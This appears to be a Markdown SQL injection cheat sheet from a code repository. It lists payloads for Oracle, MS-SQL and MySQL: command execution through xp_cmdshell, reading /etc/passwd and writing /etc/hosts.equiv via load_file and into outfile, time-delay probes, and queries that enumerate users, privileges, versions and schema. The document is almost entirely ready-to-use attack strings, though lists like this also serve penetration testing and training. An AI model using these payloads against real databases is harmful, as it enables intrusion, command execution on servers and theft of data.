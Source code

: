 **Interact with OS**
* MS-SQL
	- `exec xp_cmdshell 'dir'`
	- `master..xp_cmdshell 'ipconfig > foo.txt'`
* MySQL
	- `SELECT load_file('/etc/passwd')`
	- `select * from test into outfile '/etc/hosts.equiv'`

**Current user**
* Oracle
	- `select Sys.login_user from dual SELECT user FROM dual SYS_CONTEXT('USERENV','SESSION_USER')`
* MS-SQL
	- `select suser_sname()`
* MySQL
	- `select user()`

**Time delay**
* Oracle
	- `utl_Http.request('http://sadfdkln-doesntexist-klnasdf.com')`
* MS-SQL
	- `waitfor delay '0:0:10'`
	- `exec master..xp_cmdshell 'ping localhost'`
* MySQL
	- `sleep(5)`

**Version**
* Oracle
	- `select banner from v$version`
* MS-SQL
	- `select @@version`
* MySQL
	- `select @@version`

**Current database**
* Oracle
	- `SELECT SYS_CONTEXT('USERENV', 'DB_NAME') FROM dual`
* MS-SQL
	- `SELECT db_name()`
	-  The server name can be retrieved using:
		* `SELECT @@servername`
* MySQL
	- `SELECT database()`

**Current user’s privileges**
* Oracle
	- `SELECT privilege FROM session_privs`
* MS-SQL
	- `SELECT grantee, table_name, privilege_type FROM INFORMATION_SCHEMA.TABLE_PRIVILEGES`
* MySQL
	- `SELECT * FROM information_schema.user_privileges WHERE grantee = '[user]'`
		* Where `[user]` is determined from the output of `SELECT user()`

**Show all tables and columns in a single column of results**
* Oracle
	- `Select table_name||' '||column_name from all_tab_columns`
* MS-SQL
	- `SELECT table_name+''+column_name from information_schema.columns`
* MySQL
	- `select concat(table_name,column_name) from information_schema.columns;`
